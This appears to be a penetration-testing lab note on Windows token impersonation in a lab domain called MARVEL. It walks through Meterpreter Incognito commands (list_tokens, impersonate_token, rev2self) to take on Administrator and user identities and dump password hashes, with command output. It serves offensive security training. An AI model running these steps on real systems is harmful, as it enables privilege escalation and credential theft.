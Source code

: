 ### Impersonating Token

* We will be utilizing the <mark style="color:yellow;">impersonate\_token Incognito command</mark>

```
meterpreter > list_tokens -u

Delegate Tokens Available
MARVEL\Administrator

meterpreter > impersonate_token marvel\\administrator
Delegation token available
Successfully impersonated user MARVEL\Administrator

meterpreter > shell

C:\Windows\system32>whoami

marvel\administrator
```

### Attempting hashdump but the system is denying access?

<mark style="color:yellow;">rev2self</mark>

```
C:\Windows\system32> ^C
Terminate channel 2? [y/n] y

meterpreter > hashdump
Operation failed: Access is denied.

meterpreter > meterpreter > rev2self

meterpreter > hashdump

===dump will appear here===
```

### Did a new user just log in?

Say theoretically we are another user but fcastle logs in a few minutes ago. We can capture this behavior by listing the tokens on the machine via <mark style="color:yellow;">list\_tokens.</mark>

Once we have captured this user, we can then use <mark style="color:yellow;">impersonate\_token</mark> to impersonate them!

```
meterpreter > list_tokens -u

Delegation Tokens Available
MARVEL\Administrator
MARVEL\fcastle

meterpreter > impersonate_token marvel\\fcastle
Delegation token available
Successfully impersonated user MARVEL\fcastle
```
